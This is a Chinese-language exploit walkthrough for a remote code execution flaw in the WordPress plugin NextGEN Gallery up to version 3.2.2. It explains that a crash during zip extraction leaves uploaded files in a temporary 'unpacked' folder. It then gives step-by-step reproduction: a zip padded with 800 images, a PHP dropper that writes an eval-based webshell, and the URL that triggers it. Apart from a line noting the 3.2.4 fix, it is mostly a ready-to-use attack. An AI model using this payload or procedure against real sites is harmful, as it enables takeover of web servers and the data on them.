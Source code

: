 WordPress Plugin - NextGEN Gallery \<= 3.2.2 RCE
================================================

一、漏洞简介
------------

WordPress插件NextGEN Gallery \<=
3.2.2版本将上传的zip压缩包解压到/wp-content/uploads目录下的临时目录，该临时目录具有显著特点：以unpacked开头。

当zip压缩文件包含大量图片时将导致处理进程崩溃，而临时目录没有删除。如果在zip压缩包中放置一个php文件，那么该php文件会被解压到临时目录造成RCE漏洞。

官方在2019年6月4日发布了3.2.4版本修复了漏洞。

二、漏洞影响
------------

三、复现过程
------------

### 第1步：制作Zip压缩包

我制作了一个包含800张图片和1个恶意php文件（abc233.php）的zip压缩包，图片都是几KB的小图片，恶意php文件的功能是往上级目录写入webshell，abc233.php文件内容如下：

    <?php
        file_put_contents('../webshell666.php', '<?php @eval($_REQUEST["cmdx"]);?>');
    ?>

### 第2步：上传zip压缩包

点击"Add Gallery / Images"然后上传zip压缩包。

![](resource/WordPressPlugin-NextGENGallery=3.2.2RCE/media/rId26.png)

### 第3步：查看临时目录

点击"import folder"，再点击"uploads"即可看到解压的临时目录。

![](resource/WordPressPlugin-NextGENGallery=3.2.2RCE/media/rId28.png)

### 第4步：生成webshell

访问临时目录下的abc233.php文件即可在/wp-content/uploads目录下生成webshell。

    http://0-sec.org/wp-content/uploads/unpacked-phpA0CB.tmp/abc233.php

![](resource/WordPressPlugin-NextGENGallery=3.2.2RCE/media/rId30.png)

image

